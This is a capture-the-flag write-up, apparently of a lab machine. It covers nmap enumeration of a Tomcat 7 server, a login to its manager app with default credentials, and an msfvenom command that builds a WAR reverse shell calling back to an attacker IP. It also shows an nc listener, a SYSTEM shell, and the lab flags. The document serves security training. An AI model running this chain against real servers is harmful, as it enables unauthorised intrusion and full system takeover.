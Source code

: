 # Enumeration

Starting with nmap:

```shell
nmap -Pn -sC -sV 10.129.47.251 -o nmap.txt                                                                                              main 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 11:16 CEST
Nmap scan report for 10.129.47.251
Host is up (0.030s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Check on browser tomcat and ask for login when try to serverstatus, manager app, host manager...

![tomcat_login](IMG/tomcat_login.jpg)

Trying with defualt credentials we can login (admin/admin):

![tomcat_status](IMG/tomcat_status.jpg)

More information about OS: Windows server 2012 R2 (6.3) and tomcat/7.0.88

We can't access to list Applications:

![manager_not](IMG/tomcat_manager_not.jpg)

Try to login with tomcat/s3cret default password and manage app:

![manager_yes](IMG/tomcat_manager_yes.jpg)

# FootHold

Lets try to upload war reverseshell following [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war) information:

```shell
 Jerry  FootHold msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=4242 -f war > reverse.war
Payload size: 1085 bytes
Final size of war file: 1085 bytes

Jerry  FootHold  strings reverse.war | grep jsp # in order to get the name of the file      main 
mtvzkgzp.jsp}TQo
mtvzkgzp.jspPK
```

Upload file and, open local nc -nlvp 4242 sesion, and go to http://10.129.47.251:8080/reverse/. Check  nc session:
```shell
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>

```

Volià!
